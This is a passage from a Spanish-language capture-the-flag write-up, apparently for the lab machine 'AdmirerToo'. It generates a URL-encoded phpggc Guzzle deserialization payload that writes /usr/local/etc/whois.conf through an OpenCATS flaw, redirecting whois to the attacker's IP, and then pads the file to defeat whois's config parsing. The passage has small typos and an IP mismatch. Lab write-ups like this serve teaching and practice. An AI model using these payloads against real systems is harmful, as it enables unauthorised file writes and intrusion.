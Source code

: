 ```shell
❯ ./phpggc -u --fast-destruct Guzzle/FW1 /usr/local/etc/whois.conf whois.conf
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A25%3A%22%2Fusr%2Flocal%2Fetc%2Fwhois.conf%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A24%3A%2210.10.14.22+10.10.14.22%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3B%7Di%3A7%3Bi%3A7%3B%7D
```
Aplcamos la vulenrabilidad de opencats y vemos el archivo whois.conf pero encontramos un error al momento usar whois a nuestra máquina.

```shell
jennifer@admirertoo:/usr/local/etc$ cat whois.conf 
[{"Expires":1,"Discard":false,"Value":"10.10.14.22 10.10.14.22\n"}]

jennifer@admirertoo:/usr/local/etc$ whois 10.10.14.22
Invalid regular expression '[{"Expires":1,"Discard":false,"Value":"10.10.14.22': Unmatched [, [^, [:, [., or [=
```
Los corchetes nos dan problemas porque no reconoce la expresión regular que se debe aplicar, podemos usar un corchete para cerrar la expresión antes de nuestra ip y aplica in asterisco para que nos reconozca las ip. El problema después es sobre los caracteres después de las ip. Dentro del repositorio de whois podremos encontrar el código del comando, y podemos ver que cuando trata de leer el archivo de configuración tiene un buffer definido por lo que podemos aplicar más caracteres para que al final no logre detectar el corchete final y el sato de línea.

```c
#ifdef CONFIG_FILE
const char *match_config_file(const char *s)
{
    FILE *fp;
    char buf[512];
    static const char delim[] = " \t";

    if ((fp = fopen(CONFIG_FILE, "r")) == NULL) {
	if (errno != ENOENT)
	    err_sys("Cannot open " CONFIG_FILE);
	return NULL;
    }
```

```shell
❯ python -c 'print("]*10.10.14.6 10.10.14.22" + " "*600)' > whois.conf
❯ /usr/bin/cat whois.conf
]*10.10.14.22 10.10.14.22                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        
```
Con esto podemos volver a intentar utilizar el whois.
